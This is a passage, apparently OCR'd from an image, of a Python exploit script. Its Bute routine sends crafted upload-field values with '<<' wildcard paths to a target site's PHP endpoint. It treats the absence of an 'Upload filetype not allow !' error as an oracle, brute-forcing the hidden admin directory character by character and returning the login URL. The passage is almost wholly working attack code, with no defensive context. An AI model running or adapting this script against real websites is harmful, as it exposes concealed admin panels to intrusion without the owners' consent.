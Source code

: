                                     return file_name
                    else:
                            return False

            def Bute(self):
                    f_name = self.Check()
                    #print f_name
                    if f_name != False:
                            if f_name == "/tags.php":
                                    prefix = "./"
                            else:
                                    prefix = "./../"
                            flag = 0
                            global characters,back_dir,data,check_message
                            for num in range(1,7):        
                                    if flag:
                                            break
                                    for pre in itertools.permutations(characters,num):
                                            pre = ''.join(list(pre))
                                            data["_FILES[tools][tmp_name]"] = data["_FILES[tools][tmp_name]"].format(p=pre)
                                            print("testing",pre)
                                            r = requests.post(self.target+f_name,data=data)
                                            if "Upload filetype not allow !" not in r.text and r.status_code == 200:
                                                    flag = 1
                                                    back_dir = pre
                                                    data["_FILES[tools][tmp_name]"] = "%s{p}<</images/adminico.gif"%prefix
                                                    break
                                            else:
                                                    data["_FILES[tools][tmp_name]"] = "%s{p}<</images/adminico.gif"%prefix
                            #print("[+] 前缀为：",back_dir)
                            flag = 0
                            for i in range(30):
                                    if flag:
                                            break
                                    for ch in characters:
                                            if ch == characters[-1]:
                                                    flag = 1
                                                    break
                                            data["_FILES[tools][tmp_name]"] = data["_FILES[tools][tmp_name]"].format(p=back_dir+ch)
                                            r = requests.post(self.target+f_name, data=data)
                                            if "Upload filetype not allow !" not in r.text and r.status_code == 200:
                                                    back_dir += ch
                                                    #print("[+] ",back_dir)
                                                    data["_FILES[tools][tmp_name]"] = "%s{p}<</images/adminico.gif"%prefix
                                                    break
                                            else:
                                                    data["_FILES[tools][tmp_name]"] = "%s{p}<</images/adminico.gif"%prefix
                            show_message['Login_url'] = self.target+"/%s"%back_dir
                            
                            print show_message
                            return show_message
                    else:
                            check_message['Enumerate'] = False
                            print check_message
                            return check_message
